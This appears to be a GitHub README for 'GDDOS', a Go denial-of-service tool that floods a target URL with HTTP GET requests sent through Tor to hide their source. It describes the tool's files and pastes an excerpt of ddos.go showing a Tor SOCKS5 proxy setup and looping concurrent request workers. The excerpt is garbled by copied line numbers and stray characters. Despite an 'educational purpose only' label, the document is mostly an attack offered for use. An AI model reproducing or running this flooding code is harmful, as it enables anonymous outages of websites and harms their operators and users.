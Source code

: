 # GDDOS
Denial Of Service attack in GO using TOR 

* EDUCATIONAL PURPOSE ONLY


 * CODE DESCRIPTION
  
     * ddos.go  
     
          --Its  the  modification Konstantin8105/DDoS attack  using tor
          
     * simpleddos.go  
     
          --Minimal code of line ddos attack not banging into a server at once
          
     * simpletorddos.go 
     
          --Minimal code using tor connection
          
          
     * testtor.go 
     
          --Simple script to check the tor connectivity
          
          *********************************************************************************************

* ddos.go  explanation 

             Concurrency is not  parall #func (d *DDoS) Run() {
31
        #torcon, _ := url.Parse("socks5://127.0.0.1:9050")
32
        #pather, _ := proxy.FromURL(torcon, proxy.Direct)
33
        #nwpath := &http.Transport{Dial: pather.Dial}
34
        #client := &http.Client{Transport: nwpath}
35
​
36
        #for i := 0; i < d.amountWorkers; i++ {
37
                #go func() {
38
                        #for {
39
                                select {
40
                                case <-(*d.stop):
41
                                        return
42
                                default:
43
                                        // sent http GET requests
44
                                        resp, err := client.Get(d.url)
45
                                        atomic.AddInt64(&d.amountRequests, 1)
46
                                        if err == nil {
47
                                                atomic.AddInt64(&d.successRequest, 1)
48
                                                _, _ = io.Copy(ioutil.Discard, resp.Body)
49
                                                _ = resp.Body.Close()
50
                                                fmt.Println(d)
51
                                        }esism a



